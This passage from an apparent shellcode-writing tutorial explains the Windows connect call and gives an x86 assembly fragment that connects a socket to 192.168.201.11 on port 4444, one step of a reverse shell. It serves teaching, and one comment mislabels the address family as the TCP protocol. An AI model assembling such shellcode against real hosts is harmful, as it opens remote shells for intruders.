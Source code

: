 <p align="justify">
Function parameters : 
</p>

> s

* A descriptor identifying an unconnected socket.

> name

* A pointer to the <code  style="background-color: lightgrey; color:black;"><b>sockaddr</b></code> structure to which the connection should be established.

> namelen

* The length, in bytes, of the <code  style="background-color: lightgrey; color:black;"><b>sockaddr</b></code> structure pointed to by the name parameter.

<p align="justify">
The following code implements the <code  style="background-color: lightgrey; color:black;"><b>connect</b></code> function  
</p>

```c
;call connect
PUSH 0x0bc9a8c0          ;sin_addr set to 192.168.201.11
PUSH word 0x5c11         ;port = 4444
XOR  EBX, EBX            ;zero out EBX
add  BL, 0x2             ;TCP protocol
PUSH word BX             ;push the protocol value on the stack
MOV  EDX, ESP            ;pointer to sockaddr structure (IP,Port,Protocol)
PUSH byte  16            ;the size of sockaddr - 3rd argument of connect
PUSH EDX                 ;push the sockaddr - 2nd argument of connect
PUSH EBP                 ;socket descriptor = 64 - 1st argument of connect
XCHG EBP, EDI            ;save socket descriptor to EDI to use it later
CALL EAX                 ;execute connect;
```

<p align="justify">
At lines 1-6, we are setting the <code  style="background-color: lightgrey; color:black;"><b>sockaddr</b></code> structure ( <code  style="background-color: lightgrey; color:black;"><b>Port</b></code>, <code  style="background-color: lightgrey; color:black;"><b>IP</b></code>, <code  style="background-color: lightgrey; color:black;"><b>Protocol</b></code> ) and then the <code  style="background-color: lightgrey; color:black;"><b>edx</b></code> register will hold the pointer of <code  style="background-color: lightgrey; color:black;"><b>sockaddr</b></code> structure. Afterwards, at lines 7-9, we are setting the arguments of the <code  style="background-color: lightgrey; color:black;"><b>connect</b></code> function in reverse order. First we push the size of the <code  style="background-color: lightgrey; color:black;"><b>sockaddr</b></code> structure on the stack, then we push the address of the<code  style="background-color: lightgrey; color:black;"><b>sockaddr</b></code> structure on the stack and finally we also push on the stack, the socket descriptor that was saved before into <code  style="background-color: lightgrey; color:black;"><b>ebp</b></code>. Afterwards, before we execute <code  style="background-color: lightgrey; color:black;"><b>connect</b></code> function, we save the socket descriptor into <code  style="background-color: lightgrey; color:black;"><b>edi</b></code> for later use. Finally, we call <code  style="background-color: lightgrey; color:black;"><b>connect</b></code> function.
</p>
